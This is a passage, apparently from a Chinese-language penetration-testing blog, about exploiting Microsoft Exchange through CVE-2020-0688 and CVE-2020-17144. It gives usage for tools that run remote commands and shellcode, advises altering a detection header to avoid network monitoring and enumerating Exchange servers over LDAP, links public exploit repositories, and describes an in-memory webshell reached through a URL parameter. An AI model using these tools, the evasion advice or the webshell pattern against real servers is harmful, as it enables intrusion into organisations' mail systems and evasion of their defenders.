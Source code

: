 [![](https://p2.ssl.qhimg.com/t01259124cca4a79dc9.png)](https://p2.ssl.qhimg.com/t01259124cca4a79dc9.png)

也可以直接使用头像哥的工具

检测

```
ExchangeDetect &lt;target&gt; &lt;user&gt; &lt;pass&gt;
```

利用

```
ExchangeCmd &lt;target&gt; &lt;user&gt; &lt;pass&gt;
sub commands:
    exec &lt;cmd&gt; [args]
      exec command

    arch
      get remote process architecture(for shellcode)

    shellcode &lt;shellcode.bin&gt;
      run shellcode

    exit
      exit program
```

他的检测逻辑是在返回的头部加个信息

```
Headers["X-ZCG-TEST"]=="CVE-2020-0688"
```

不排除某些网络设备会检测这个,可根据需求自行修改

另外有个需要注意的点,如果在域内,`&lt;target&gt;`填邮箱域名(mail.xxx.com)检测不出来,可以先通过LDAP查询每台Exchange服务器,然后一台台试试,说不定有收获.

另外一个需要注意的点,执行命令的时候最好带上`cmd /c`

### <a class="reference-link" name="CVE-2020-17144"></a>CVE-2020-17144

需要普通用户凭据的情况下的RCE,就Exchange2010能用

[https://github.com/Airboi/CVE-2020-17144-EXP](https://github.com/Airboi/CVE-2020-17144-EXP)

[https://github.com/zcgonvh/CVE-2020-17144](https://github.com/zcgonvh/CVE-2020-17144)

```
CVE-2020-17144 &lt;target&gt; &lt;user&gt; &lt;pass&gt;
```

执行完之后会有个内存马,访问

http://[target]/ews/soap/?pass=命令

[![](https://p1.ssl.qhimg.com/t01a18bdccaae0c91a3.png)](https://p1.ssl.qhimg.com/t01a18bdccaae0c91a3.png)
